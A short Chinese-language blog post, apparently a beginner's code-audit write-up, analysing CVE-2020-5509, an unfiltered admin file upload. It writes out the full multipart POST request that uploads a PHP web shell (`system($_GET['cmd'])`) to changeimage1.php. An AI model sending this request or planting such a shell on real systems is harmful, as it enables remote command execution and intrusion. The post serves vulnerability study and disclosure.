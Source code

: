 ```yaml
---
title: CVE-2020-5509漏洞分析
published: true
---
```

前几天在Gayhub上看到了这个漏洞的exp,是国外小哥写的!
Github原址:https://github.com/FULLSHADE/CVE-2020-5509-POC

# [](#header-1)前言

小弟第一次接触代码审计,故写下此文!

漏洞原理十分简单.

# [](#header-2)漏洞分析

首先祭出神器 Seay源代码审计工具对网站源码进行自动审计!

![](https://m4tir.github.io/assets/f1.png)

可以看到他这里有很多未过滤的文件上传,但是却是在后台,漏洞危害性小了很多!

![](https://m4tir.github.io/assets/f2.png)

这里要验证update,所以我们直接让update=“”

然后post http://website/admin/changeimage1.php

我们让协议头为

```php
Content-Type: multipart/form-data; boundary="I am lonely"
```

上传的File数据为[其中--I am lonely是分割的,只需要在协议头中让他们保持一致即可！]:

```php
--I am lonely
Content-Disposition: form-data; name="img1"; filename="test.php"
Content-Type: image/jpeg

<?php system($_GET["cmd"]); ?>
--I am lonely
Content-Disposition: form-data; name="update"

--I am lonely
```

END!
